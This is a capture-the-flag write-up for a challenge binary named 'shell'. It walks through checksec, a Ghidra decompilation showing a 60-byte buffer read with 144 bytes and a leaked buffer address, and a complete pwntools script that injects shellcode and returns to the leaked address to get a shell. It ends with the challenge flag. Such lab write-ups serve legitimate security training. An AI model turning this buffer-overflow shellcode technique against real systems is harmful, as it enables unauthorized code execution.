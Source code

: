 
This write up is for the challenge shell

The first thing I did was to first run file and checksec to see the basic protections that the binary had. I saw that it there was no NX meaning that we could inject our own shellcode.

After running the binary one can see that it prints out the location of the start of the buffer, if there is a buffer overflow we have a clear shellcode injection.

I opened it up in ghidra and I saw
```

void read_in(void)

{
  undefined1 local_44 [60];
  
  printf("Buffer location = 0x%08x\n",local_44);
  read(0,local_44,144);
  return;
}
```
This is what I was looking for, now all I need to do is create a script that injects shellcode, pads to the return address and returns to the beginning of our shellcode.

```python
#!/usr/bin/env python3 
import subprocess
from pwn import *

binary_path = './shell' # exe
libc_path = ''
remote_host = 'www.cweaccessionsctf.com'
remote_port = 1305  # <-- Needs to be a valid integer if using REMOTE

context.binary = binary_path
#context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary
#libc = ELF(libc_path)
rop = ROP(elf)
#libc = ELF(libc_path)

if args.GDB:
    p = gdb.debug(binary_path, gdbscript='b *')
elif args.REMOTE:
    p = remote(remote_host, remote_port)
else:
    p = process(binary_path)

def main():
    p.recvuntil(b'location = ')
    buff = p.recvn(10) # Reads in leaked location
    buff = int(buff,16) #cast to packable value
    shellcode = asm(shellcraft.sh())
    payload = b''
    payload += shellcode
    leng = len(shellcode)
    print(leng)
    payload += b'A' * (68 - leng)
    payload += p32(buff)

    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    main()

```
This then pops a shell and we can cat the flag

CWE{popping_shells_is_neat_HRhzM3AR}
<!--stackedit_data:
eyJoaXN0b3J5IjpbNzc4NTg5MjYwXX0=
-->
